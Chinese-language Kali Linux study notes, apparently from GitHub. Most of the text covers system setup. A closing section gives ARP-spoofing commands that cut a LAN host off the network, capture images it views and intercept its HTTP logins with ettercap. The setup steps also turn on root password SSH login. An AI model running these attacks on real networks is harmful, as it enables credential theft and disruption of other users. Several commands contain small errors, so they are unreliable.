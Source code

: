                                                 Kali学习笔记

## 1.环境的搭建

### 1.1虚拟机搭建 

物理机要求：  I3同级或者更高级
内存 不小于2G （最低要求）8G 略显紧凑 16G  上天。。
硬盘 只是玩玩的话用32G左右就好  长期玩 不小于80G 

物理机电脑如果是 32位 用vm10版本的 64位 用12版本的 
我不会告诉你 可以右键我的电脑 属性 能看到位数的 

先去bios 确认开启了虚拟化 
然后安装虚拟机  
百度有序列号 不强调 
在桌面的虚拟机图标 右键 属性 兼容性 兼容当前操作系统  并且以管理员身份运行


物理机安装的话 需要先确定 cpu是amd的 还是 inter的  这两个有区别  
首先 amd的 cpu 尽量安装 amd 64位的镜像  inter的cpu 尽量安装i386的镜像 口映射太麻烦，监听的时候 可能会被防火墙拦截 或者无法转发，抓包的时候一大堆物理机的数据包 一小部分是局域网下的 
物理机安装kali物理硬件 性能最大化利用，端口映射简单 方便 
缺点 最主要的是兼容性问题，太坑，除非必要 真心不建议装 或者当前版本不建议（等待官方的更新）再就是 独立显卡驱动 很麻烦 也很鸡肋 
在者 不建议 物理机安装 因为会有很多故障 或者不兼容的情况  
首先用软碟通打开镜像 然后选择存储介质 烧录 然后 重启 更改bios的启动项 设置成 U盘启动 然后 进入到kali安装界面 选择倒数第三项（图形化安装）
剩下的不多叙述 和虚拟机安装方法 大同小异
注意要点：
* 第一  物理机和虚拟机各有优缺点 
虚拟机能快照还原 配置方便 物理硬件更改方便 
缺点，端
* 第二 物理机安装 注意好盘符分区 一定不要弄错了 
* 第三 引导位置，尤其是双硬盘的玩家 一定要注意 引导放在那里
* 第四 如果物理机安装的时候 提示探测不到光盘 请把 未解压的iso镜像放到u盘一份 还是探测不到 请把U盘重新插拔 再探测 还是不行 就去安装的shell里面  df -hl 查看当前挂载点 ，然后 umount
加上最后一行  再执行就好了 
* 第五 如果 你对你的网络不自信 就别用网络镜像更新 很多人都是卡死在这里 
* 第六 记好root密码 忘了  呵呵 重做吧 


#### 1.1.1安装vmtool


在虚拟机选项栏 找到虚拟机选项 下拉菜单中 找到 安装vmtool 
在空白处右键  在终端打开
 先 ls 查看下 当前目录下的所有文件 
 切换到vm目录 执行安装文件  
Vmware-install.pl 是安装文件  vmware-install.real.pl 是卸载文件 


## 1.2 kali虚拟机的配置
#### 1.2.1 更新源的修改
  （最好不要更改，就用官方源，但是其中有些中文的软件安装包没有）

终端修改 /etc/apt/sources.list文件 ，用Nano、vim都可以

```shell
#kali官方源
deb http://http.kali.org/kali kali-rolling main non-free contrib
#中科大的源
deb http://mirrors.ustc.edu.cn/kali kali-rolling main non-free contrib


依次执行下面命令： 
apt-get update & apt-get upgrade   更新并升级 
apt-get dist-upgrade 
reboot
```

#### 1.2.2安装 输入法
```shell
apt-get install fcitx fcitx-googlepinyin
```
16.2版本更新了之后 在桌面右上角的设置去找输入法的配置
 
#### 1.2.3字体重叠解决 办法
```
apt-get install -y ttf-wqy-microhei ttf-wqy-zenhei xfonts-wqy
```
#### 1.2.4安装 vpn代理工具 （选装 后期才会涉及到翻墙）
```
apt-get install network-manager-openvpn-gnome
apt-get install network-manager-pptp
apt-get install network-manager-pptp-gnome
apt-get install network-manager-strongswan
apt-get install network-manager-vpnc
apt-get install network-manager-vpnc-gnome
```
#### 1.2.5安装 flash 
```
方法一：物理机不一定有用
apt-get install flashplugin-nonfree
update-flashplugin-nonfree --install

方法二：
下载flash linux压缩包
解压后进入文件夹
cp libflashplayer.so /usr/lib/mozilla/plugins/
cp -r usr/* /usr

```
#### 1.2.6安装nload流量分析工具
```
Apt-get install nload
```
#### 1.2.7修改ettercap配置文件
```
Nano /etc/ettercap/etter.conf 
```
把 ec_uid 、ec_gid的值 改成0 
Ctrl +x 是退出  然后她会询问你是否保存  按 y 然后 她会问你保存的文件名  这块直接回车就好  


#### 1.2.8 Ssh 配置文件修改 
```
nano /etc/ssh/sshd_config 
将#PasswordAuthentication no的注释去掉，并且将NO修改为YES //kali中默认是yes
将PermitRootLogin without-password修改为
   PermitRootLogin yes
```

* Ssh 开机自启 
格式  
```
Update-rc.d 服务 enable //（开启）disabled 关闭
update-rc.d ssh enable  //系统自动启动SSH服务
update-rc.d ssh disabled // 关闭系统自动启动SSH服务
```
完成以上步骤 且确保无误并拍摄快照

#### 1.2.9 kali物理机声卡问题（亲测）

#其实并不是不支持声卡驱动了。
#只是root用户下默认关闭。
```
systemctl --user enable pulseaudio  
```

leafpad 编辑 /etc/default/pulseaudio 写入以下两行即可。
#root下是默认关闭声卡驱动的， 开机自动开启
```
PULSEAUDIO_SYSTEM_START=1
DISALLOW_MODULE_LOADING=0
```
reboot




# &.Kali系统渗透实战教程

## &.1：局域网断网攻击讲解
注：arp攻击 ，使局域网内某机器断网！  
原理：使目标的ip经过我的网卡，从网关出去，
如果可以从网关出去，就是arp欺骗
如果配置错误，不能从网关出去，经形成断网攻击
Arpspoof

Arpspoof  -i 网卡 -t 目标IP 网关


Kali : 网卡  eth0
目标ip ：192.168.1.100
网关：192.168.1.1


替换掉： arpspoof -i eth0 -t 192.168.1.100  192.168.1.1

怎么看局域网当中的ip呢   

fping -asg 192.168.1.0/24


echo 1 > /proc/net/sys/ipv4/ip_forward

注：echo  写入命令不会有回显

## &.2：图片拦截
driffnet  截取经过网卡的图片
命令：driffnet -i eth0
通过与arp欺骗，
echo 1 > /proc/net/sys/ipv4/ip_forward
arpspoof -i eth0 -t 192.168.1.100  192.168.1.1

可以获取内网别人浏览过的一些图片
## &.3：http账号密码的截取
在公司我已经学会用wireshark进行用户账号密码的抓包分析，现在通过arp欺骗在用ettercap进行拦截
思路:先进行arp欺骗，然后进行拦截
命令：
执行arp欺骗：
echo 1 > /proc/net/sys/ipv4/ip_forward
arpspoof -i eth0 -t 192.168.1.100  192.168.1.1
ettercap -Tq -i eth0（其中T代表以文本格式，q是以安静模式）
当然也可以以图形化界面的方式来进行，最终截图的如下列：
 
![http](https://github.com/jitianze/yanzixu/blob/master/picture/1.png)


## &.4：https 账号密码的截取







## kali启动metasploit framework
kali 2.0 已经没有metasploit 这个服务了，所以service metasploit start 的方式不起作用。
在kali 2.0中启动带数据库支持的MSF方式如下：
1  首先启动postgresql数据库：/etc/init.d/postgresql start；或者 service postgresql start；
2  初始化MSF数据库（关键步骤！）：msfdb init；
3  运行msfconsole：msfconsole；
4  在msf中查看数据库连接状态：db_status。
